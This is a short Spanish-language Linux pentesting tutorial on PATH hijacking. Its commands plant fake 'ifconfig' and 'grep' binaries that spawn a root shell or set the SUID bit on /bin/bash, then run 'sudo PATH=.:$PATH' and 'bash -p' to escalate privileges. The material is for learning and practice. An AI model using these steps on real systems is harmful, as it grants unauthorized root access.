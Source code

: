 ```yaml
---
title: "Path Hijacking"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/path-hijacking"
date: "2025-09-30"
---
```


## PATH Hijacking
Es una vulnerabilidad que nos permite alterar el funcionamiento normal del sistema para ejecutar binarios que no son lejítimos, como si realmente lo fueran.

#### CASO 1
Supongamos que tenemos un binario que por defecto/mala configuración podemos ejecutar como root, pero no se puede explotar como con **GTFOBins**. Por ejemplo, ____un script que se ejecuta como root, que contiene el comando "ifconfig"___

___También sirve para ese mismo binario si tuviera permisos para ejecutarse como root, se puede secuestrar el path___

Ver la variable de entorno $PATH
```bash
echo $PATH
```

añadir una ruta al $PATH
```bash
export PATH=/ruta_que_queramos_añadir:$PATH
"EJEMPLO"
export PATH=/home/kali:$PATH
```

crear un binario malicioso
```bash
nano ifconfig
(contenido:
/bin/bash)

chmod +x ifconfig
```

De esta manera, si tenemos un binario en **/home/kali** llamado **ifconfig** cuyo contenido sea el siguiente:
```bash
/bin/bash
``` 
, al lanzar el script que contiene el comando **ifconfig**, la primera ruta donde buscará en el $PATH, será /home/kali y encontrará nuestro binario malicioso.

#### CASO 2
Tenemos un binario/script (a priori inútil) pero que se puede ejecutar como root, por ejemplo **backup.sh**, y este backup contiene algún comando, por ejemplo **grep**. Aunque el binario no sea editable, podemos aprovechar este script para alterar el path.

1º Nos dirigimos a **/tmp** o a algún directorio editable y creamos un binario de un comando que esté contenido en el script, por ejemplo **grep** con el siguiente contenido:
```bash
chmod u+s /bin/bash
```

2º En el terminal (aprovechamos los privilegios para lanzar el backup.sh para alterar el path):
```bash
sudo PATH=.:$PATH /ruta/al/backup.sh
```

3º 
```bash
bash -p
```

